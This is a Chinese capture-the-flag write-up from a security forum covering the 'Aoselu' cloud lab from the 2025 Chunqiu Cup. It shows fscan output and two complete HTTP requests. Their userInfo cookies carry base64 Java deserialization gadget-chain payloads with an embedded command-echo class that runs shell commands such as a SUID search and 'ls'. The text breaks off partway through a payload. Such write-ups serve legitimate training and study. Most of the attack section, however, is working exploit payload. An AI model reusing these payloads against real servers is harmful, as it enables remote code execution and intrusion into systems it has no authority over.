# 春秋云镜–Aoselu-先知社区

> **来源**: https://xz.aliyun.com/news/18632  
> **文章ID**: 18632

---

这是2025春秋杯夏季赛云境靶场

赛时不会手动打内存马所以没梭成内网

这里重新打了一下

考点

> 反序列化不出网打内存马
>
> cve-2025-32462提权
>
> mysql-udf
>
> 土豆提权
>
> autologin获取默认账密
>
> 注册表提权
>
> writeDACL+RBCD

## 信息收集

开局一个ip

39.98.116.223

赛后复盘重打

写的不好，且比较乱，师傅自行判断借鉴

```
D:\red\内网\免杀工具包\免杀工具包\fscan火绒6.0免杀版\fscan2.0>fscan.exe -h 39.98.116.223

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] 最终有效主机数量: 1
[*] 共解析 218 个有效端口
[+] 端口开放 39.98.116.223:80
[+] 端口开放 39.98.116.223:8080
[+] 端口开放 39.98.116.223:22
[+] 存活端口数量: 3
[*] 开始漏洞扫描...
[*] 网站标题 http://39.98.116.223      状态码:200 长度:33611  标题:Aoselu Automotive - Redefining Mobility
[*] 网站标题 http://39.98.116.223:8080 状态码:200 长度:15978  标题:Aoselu Automotive - Email Login
[!] 扫描错误 39.98.116.223:22 - 扫描总时间超时: context deadline exceeded
[+] 扫描已完成: 3/3
[*] 扫描结束,耗时: 20.8528663s
```

## 外网打点

### flag01

反序列化

根据提示

提示一：

1. 入口Email账号登录之后返回的cookie字段userInfo存在java反序列化
2. 目标不出网

提示2： 请尝试 cc 链获取回显，然后suid提权拿到入口机的flag

先生成payload





将cookie直接改为payload，发包，rce成功



这里可以直接打冰蝎内存马，比赛时没想到

接下来查看suid提权

#### suid提权-cme/cve-2025-32463

```
find / -perm -u=s -type f 2>/dev/null
```



```
GET /mail/u/0/ HTTP/1.1
Host: 39.98.116.223:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.98.116.223:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: userInfo=8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.98.116.223:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: userInfo=rO0ABXNyAFbBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/BrMGswaXBo8G0wanBr8GuwbPAtMCuwaLBocGnwK7BlMGywaXBpcGCwaHBp5SVecHY59tsAwAAeHBzcgCEwa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGjwa/BrcGwwaHBssGhwbTBr8GywbPArsGUwbLBocGuwbPBpsGvwbLBrcGpwa7Bp8GDwa/BrcGwwaHBssGhwbTBr8GyL/mE8CuxCMwCAAJMABLBpMGlwaPBr8GywaHBtMGlwaR0ACzBjMGqwaHBtsGhwK/BtcG0wanBrMCvwYPBr8GtwbDBocGywaHBtMGvwbLAu0wAFsG0wbLBocGuwbPBpsGvwbLBrcGlwbJ0AFrBjMGvwbLBp8CvwaHBsMGhwaPBqMGlwK/Bo8Gvwa3BrcGvwa7Bs8CvwaPBr8GswazBpcGjwbTBqcGvwa7Bs8C0wK/BlMGywaHBrsGzwabBr8Gywa3BpcGywLt4cHNyAIDBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/BrMGswaXBo8G0wanBr8GuwbPAtMCuwaPBr8GtwbDBocGywaHBtMGvwbLBs8CuwYPBr8GtwbDBocGywaHBosGswaXBg8Gvwa3BsMGhwbLBocG0wa/Bsvv0mSW4brE3AgAAeHBzcgB2wa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGmwbXBrsGjwbTBr8GywbPArsGJwa7BtsGvwavBpcGywZTBssGhwa7Bs8Gmwa/BssGtwaXBsofo/2t7fM44AgADWwAKwanBgcGywafBs3QAJsGbwYzBqsGhwbbBocCvwazBocGuwafAr8GPwaLBqsGlwaPBtMC7TAAWwanBjcGlwbTBqMGvwaTBjsGhwa3BpXQAJMGMwarBocG2waHAr8GswaHBrsGnwK/Bk8G0wbLBqcGuwafAu1sAFsGpwZDBocGywaHBrcGUwbnBsMGlwbN0ACTBm8GMwarBocG2waHAr8GswaHBrsGnwK/Bg8GswaHBs8GzwLt4cHVyACbBm8GMwarBocG2waHArsGswaHBrsGnwK7Bj8GiwarBpcGjwbTAu5DOWJ8QcylsAgAAeHAAAAAAdAAcwa7BpcG3wZTBssGhwa7Bs8Gmwa/BssGtwaXBsnVyACTBm8GMwarBocG2waHArsGswaHBrsGnwK7Bg8GswaHBs8GzwLurFteuy81amQIAAHhwAAAAAHcEAAAAAXNyAHTBo8Gvwa3ArsGzwbXBrsCuwa/BssGnwK7BocGwwaHBo8GowaXArsG4waHBrMGhwa7ArsGpwa7BtMGlwbLBrsGhwazArsG4wbPBrMG0waPArsG0wbLBocG4wK7BlMGlwa3BsMGswaHBtMGlwbPBicGtwbDBrAlXT8FurKszAwAGSQAawZ/BqcGuwaTBpcGuwbTBjsG1wa3BosGlwbJJABzBn8G0wbLBocGuwbPBrMGlwbTBicGuwaTBpcG4WwAUwZ/BosG5wbTBpcGjwa/BpMGlwbN0AAbBm8GbwYJbAAzBn8GjwazBocGzwbNxAH4AC0wACsGfwa7BocGtwaVxAH4ACkwAIsGfwa/BtcG0wbDBtcG0wZDBssGvwbDBpcGywbTBqcGlwbN0ACzBjMGqwaHBtsGhwK/BtcG0wanBrMCvwZDBssGvwbDBpcGywbTBqcGlwbPAu3hwAAAAAP////91cgAGwZvBm8GCS/0ZFWdn2zcCAAB4cAAAAAJ1cgAEwZvBgqzzF/gGCFTgAgAAeHAAAA2/yv66vgAAADQA1AoAIgBlCQA7AGYKAAwAZwgAaAoADABpCABqBwBrCQA7AGwKAAcAbQoAOwBuCgAMAG8HAHAIAHEKAHIAcwoADAB0CAB1CgAMAHYIAD4IAHcIAHgIAHkKAHoAewoAegB8CgB9AH4KAAcAfwcAgAoAgQCCCgCBAIMIAIQKAIUAhggAhwcAiAoAIACJBwCKCgCLAIwIAI0IAI4IAI8IAJAKACAAkQoAIgCSCACTCgCLAJQJADsAlQgAlggAlwkAOwCYCACZCgAHAJoKAAcAmwgAnAgAnQgAnggAnwgAoAgAoQgAogoAOwCjBwCkAQAJaGVhZGVyS2V5AQASTGphdmEvbGFuZy9TdHJpbmc7AQADY21kAQAGYWN0aW9uAQAIcG9zaXRpb24BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAFExwYXlsb2FkL1NwcmluZ0VjaG87AQAFc3RhcnQBAAV2YXIxMQEAE1tMamF2YS9sYW5nL1N0cmluZzsBAA1TdGFja01hcFRhYmxlBwBwBwBKBwCAAQAERWNobwEAFihMamF2YS91dGlsL1NjYW5uZXI7KVYBAAdzY2FubmVyAQATTGphdmEvdXRpbC9TY2FubmVyOwEABHZhcjABABFMamF2YS9sYW5nL0NsYXNzOwEABHZhcjEBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABHZhcjIBABJMamF2YS9sYW5nL09iamVjdDsBAAR2YXI0AQAEdmFyNgEABHZhcjcBAAR2YXI4BwBrBwCIBwClBwCKAQAKRXhjZXB0aW9ucwEACDxjbGluaXQ+AQAKU291cmNlRmlsZQEAD1NwcmluZ0VjaG8uamF2YQwAQQBCDAA/AD0MAKYApwEABGVjaG8MAKgAqQEABGV4ZWMBABFqYXZhL3V0aWwvU2Nhbm5lcgwAPgA9DABBAKoMAE8AUAwAqwCsAQAQamF2YS9sYW5nL1N0cmluZwEAB29zLm5hbWUHAK0MAK4ArwwAsACxAQADV0lODACyALMBAAIvYwEABy9iaW4vc2gBAAItYwcAtAwAtQC2DABqALcHALgMALkAugwAQQC7AQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAvAwAvQC+DAC/AMABADxvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuUmVxdWVzdENvbnRleHRIb2xkZXIHAMEMAMIAwwEAFGdldFJlcXVlc3RBdHRyaWJ1dGVzAQAPamF2YS9sYW5nL0NsYXNzDADEAMUBABBqYXZhL2xhbmcvT2JqZWN0BwClDADGAMcBAEBvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuU2VydmxldFJlcXVlc3RBdHRyaWJ1dGVzAQALZ2V0UmVzcG9uc2UBAB1qYXZheC5zZXJ2bGV0LlNlcnZsZXRSZXNwb25zZQEACWdldFdyaXRlcgwAyADFDADJAMoBAAlhZGRIZWFkZXIMAMsAzAwAQAA9AQAGaGVhZGVyAQAEYm9keQwAPAA9AQACXEEMAM0AzgwAzwCxAQAHcHJpbnRsbgEABWZsdXNoAQAFY2xvc2UBAARFdGFnAQAlZmluZCAvIC1wZXJtIC11PXMgLXR5cGUgZiAyPi9kZXYvbnVsbAEABGV4ZWMBAARib2R5DABIAEIBAAhTSm1TSnhrSAEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEACGhhc2hDb2RlAQADKClJAQAGZXF1YWxzAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQAHaXNFbXB0eQEAAygpWgEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQALdG9VcHBlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgEAEGphdmEvbGFuZy9UaHJlYWQBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyAQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwEACWdldE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9s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
Connection: keep-alive


```



```
/usr/bin/mount
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/umount
/usr/bin/passwd
/usr/bin/cmp
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

ls可以看到flag就在当前目录

```
GET /mail/u/0/ HTTP/1.1
Host: 39.98.116.223:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.98.116.223:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: userInfo=8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.98.116.223:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: userInfo=rO0ABXNyAFbBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/BrMGswaXBo8G0wanBr8GuwbPAtMCuwaLBocGnwK7BlMGywaXBpcGCwaHBp5SVecHY59tsAwAAeHBzcgCEwa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGjwa/BrcGwwaHBssGhwbTBr8GywbPArsGUwbLBocGuwbPBpsGvwbLBrcGpwa7Bp8GDwa/BrcGwwaHBssGhwbTBr8GyL/mE8CuxCMwCAAJMABLBpMGlwaPBr8GywaHBtMGlwaR0ACzBjMGqwaHBtsGhwK/BtcG0wanBrMCvwYPBr8GtwbDBocGywaHBtMGvwbLAu0wAFsG0wbLBocGuwbPBpsGvwbLBrcGlwbJ0AFrBjMGvwbLBp8CvwaHBsMGhwaPBqMGlwK/Bo8Gvwa3BrcGvwa7Bs8CvwaPBr8GswazBpcGjwbTBqcGvwa7Bs8C0wK/BlMGywaHBrsGzwabBr8Gywa3BpcGywLt4cHNyAIDBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/BrMGswaXBo8G0wanBr8GuwbPAtMCuwaPBr8GtwbDBocGywaHBtMGvwbLBs8CuwYPBr8GtwbDBocGywaHBosGswaXBg8Gvwa3BsMGhwbLBocG0wa/Bsvv0mSW4brE3AgAAeHBzcgB2wa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGmwbXBrsGjwbTBr8GywbPArsGJwa7BtsGvwavBpcGywZTBssGhwa7Bs8Gmwa/BssGtwaXBsofo/2t7fM44AgADWwAKwanBgcGywafBs3QAJsGbwYzBqsGhwbbBocCvwazBocGuwafAr8GPwaLBqsGlwaPBtMC7TAAWwanBjcGlwbTBqMGvwaTBjsGhwa3BpXQAJMGMwarBocG2waHAr8GswaHBrsGnwK/Bk8G0wbLBqcGuwafAu1sAFsGpwZDBocGywaHBrcGUwbnBsMGlwbN0ACTBm8GMwarBocG2waHAr8GswaHBrsGnwK/Bg8GswaHBs8GzwLt4cHVyACbBm8GMwarBocG2waHArsGswaHBrsGnwK7Bj8GiwarBpcGjwbTAu5DOWJ8QcylsAgAAeHAAAAAAdAAcwa7BpcG3wZTBssGhwa7Bs8Gmwa/BssGtwaXBsnVyACTBm8GMwarBocG2waHArsGswaHBrsGnwK7Bg8GswaHBs8GzwLurFteuy81amQIAAHhwAAAAAHcEAAAAAXNyAHTBo8Gvwa3ArsGzwbXBrsCuwa/BssGnwK7BocGwwaHBo8GowaXArsG4waHBrMGhwa7ArsGpwa7BtMGlwbLBrsGhwazArsG4wbPBrMG0waPArsG0wbLBocG4wK7BlMGlwa3BsMGswaHBtMGlwbPBicGtwbDBrAlXT8FurKszAwAGSQAawZ/BqcGuwaTBpcGuwbTBjsG1wa3BosGlwbJJABzBn8G0wbLBocGuwbPBrMGlwbTBicGuwaTBpcG4WwAUwZ/BosG5wbTBpcGjwa/BpMGlwbN0AAbBm8GbwYJbAAzBn8GjwazBocGzwbNxAH4AC0wACsGfwa7BocGtwaVxAH4ACkwAIsGfwa/BtcG0wbDBtcG0wZDBssGvwbDBpcGywbTBqcGlwbN0ACzBjMGqwaHBtsGhwK/BtcG0wanBrMCvwZDBssGvwbDBpcGywbTBqcGlwbPAu3hwAAAAAP////91cgAGwZvBm8GCS/0ZFWdn2zcCAAB4cAAAAAJ1cgAEwZvBgqzzF/gGCFTgAgAAeHAAAA2cyv66vgAAADQA1AoAIgBlCQA7AGYKAAwAZwgAaAoADABpCABqBwBrCQA7AGwKAAcAbQoAOwBuCgAMAG8HAHAIAHEKAHIAcwoADAB0CAB1CgAMAHYIAD4IAHcIAHgIAHkKAHoAewoAegB8CgB9AH4KAAcAfwcAgAoAgQCCCgCBAIMIAIQKAIUAhggAhwcAiAoAIACJBwCKCgCLAIwIAI0IAI4IAI8IAJAKACAAkQoAIgCSCACTCgCLAJQJADsAlQgAlggAlwkAOwCYCACZCgAHAJoKAAcAmwgAnAgAnQgAnggAnwgAoAgAoQgAogoAOwCjBwCkAQAJaGVhZGVyS2V5AQASTGphdmEvbGFuZy9TdHJpbmc7AQADY21kAQAGYWN0aW9uAQAIcG9zaXRpb24BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAFExwYXlsb2FkL1NwcmluZ0VjaG87AQAFc3RhcnQBAAV2YXIxMQEAE1tMamF2YS9sYW5nL1N0cmluZzsBAA1TdGFja01hcFRhYmxlBwBwBwBKBwCAAQAERWNobwEAFihMamF2YS91dGlsL1NjYW5uZXI7KVYBAAdzY2FubmVyAQATTGphdmEvdXRpbC9TY2FubmVyOwEABHZhcjABABFMamF2YS9sYW5nL0NsYXNzOwEABHZhcjEBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABHZhcjIBABJMamF2YS9sYW5nL09iamVjdDsBAAR2YXI0AQAEdmFyNgEABHZhcjcBAAR2YXI4BwBrBwCIBwClBwCKAQAKRXhjZXB0aW9ucwEACDxjbGluaXQ+AQAKU291cmNlRmlsZQEAD1NwcmluZ0VjaG8uamF2YQwAQQBCDAA/AD0MAKYApwEABGVjaG8MAKgAqQEABGV4ZWMBABFqYXZhL3V0aWwvU2Nhbm5lcgwAPgA9DABBAKoMAE8AUAwAqwCsAQAQamF2YS9sYW5nL1N0cmluZwEAB29zLm5hbWUHAK0MAK4ArwwAsACxAQADV0lODACyALMBAAIvYwEABy9iaW4vc2gBAAItYwcAtAwAtQC2DABqALcHALgMALkAugwAQQC7AQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAvAwAvQC+DAC/AMABADxvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuUmVxdWVzdENvbnRleHRIb2xkZXIHAMEMAMIAwwEAFGdldFJlcXVlc3RBdHRyaWJ1dGVzAQAPamF2YS9sYW5nL0NsYXNzDADEAMUBABBqYXZhL2xhbmcvT2JqZWN0BwClDADGAMcBAEBvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuU2VydmxldFJlcXVlc3RBdHRyaWJ1dGVzAQALZ2V0UmVzcG9uc2UBAB1qYXZheC5zZXJ2bGV0LlNlcnZsZXRSZXNwb25zZQEACWdldFdyaXRlcgwAyADFDADJAMoBAAlhZGRIZWFkZXIMAMsAzAwAQAA9AQAGaGVhZGVyAQAEYm9keQwAPAA9AQACXEEMAM0AzgwAzwCxAQAHcHJpbnRsbgEABWZsdXNoAQAFY2xvc2UBAARFdGFnAQACbHMBAARleGVjAQAEYm9keQwASABCAQAIU0ptU0p4a0gBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAAhoYXNoQ29kZQEAAygpSQEABmVxdWFscwEAFShMamF2YS9sYW5nL09iamVjdDspWgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAB2lzRW1wdHkBAAMoKVoBABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAC3RvVXBwZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBABBqYXZhL2xhbmcvVGhyZWFkAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgEACWxvYWRDbGFzcwEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQARZ2V0RGVjbGFyZWRNZXRob2QBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgEADHVzZURlbGltaXRlcgEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvdXRpbC9TY2FubmVyOwEABG5leHQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwDQDABBAEIKANEA0gAhADsA0QAAAAQACAA8AD0AAAAIAD4APQAAAAgAPwA9AAAACABAAD0AAAAEAAEAQQBCAAEAQwAAAC8AAQABAAAABSq3ANOxAAAAAgBEAAAABgABAAAABgBFAAAADAABAAAABQBGAEcAAAAJAEgAQgABAEMAAAFIAAQAAwAAALyyAAJLAjwqtgADqwAAAAAzAAAAAgAvaiUAAAAaAC+4kQAAACgqEgS2AAWZABMDPKcADioSBrYABZkABQQ8G6sAAAAAeQAAAAIAAAAAAAAAGgAAAAEAAAAquwAHWbIACLcACbgACqcAUrIACLYAC5oASQa9AAxNEg24AA62AA8SELYAEZkAECwDEhJTLAQSE1OnAA0sAxIUUywEEhVTLAWyAAhTuwAHWbgAFiy2ABe2ABi3ABm4AAqnAARLsQABAAAAtwC6ABoAAwBEAAAAPgAPAAAAEgBYABQAZQAVAGgAFwBxABgAdgAZAIYAGgCLABsAkwAdAJgAHgCdACAAowAhALcAJgC6ACUAuwAnAEUAAAAMAAEAdgBBAEkASgACAEsAAAAcAAr9ACQHAEwBDQoaD/wAKgcATQn4ABlCBwBOAAAKAE8AUAACAEMAAAJNAAcACgAAAWe4ABu2ABwSHbYAHkwrEh8DvQAgtgAhTSwBA70AIrYAI064ABu2ABwSJLYAHkwrEiUDvQAgtgAhTSwtA70AIrYAIzoEuAAbtgAcEia2AB4SJwO9ACC2ACg6BRkEtgApEioFvQAgWQMSDFNZBBIMU7YAKDoGGQYEtgArGQUEtgArGQUZBAO9ACK2ACM6B7IALDoIAjYJGQi2AAOrAAAAAAA4AAAAArc04o0AAAAbAC45ogAAACsZCBIttgAFmQAWAzYJpwAQGQgSLrYABZkABgQ2CRUJqwAAAJMAAAACAAAAAAAAABkAAAABAAAAOhkGGQQFvQAiWQOyAC9TWQQqEjC2ADG2ADJTtgAjV6cAXBkHtgApEjMEvQAgWQMSDFO2ACgZBwS9ACJZAyoSMLYAMbYAMlO2ACNXGQe2ACkSNAO9ACC2ACgZBwO9ACK2ACNXGQe2ACkSNQO9ACC2ACgZBwO9ACK2ACNXsQAAAAMARAAAAEoAEgAAACkAD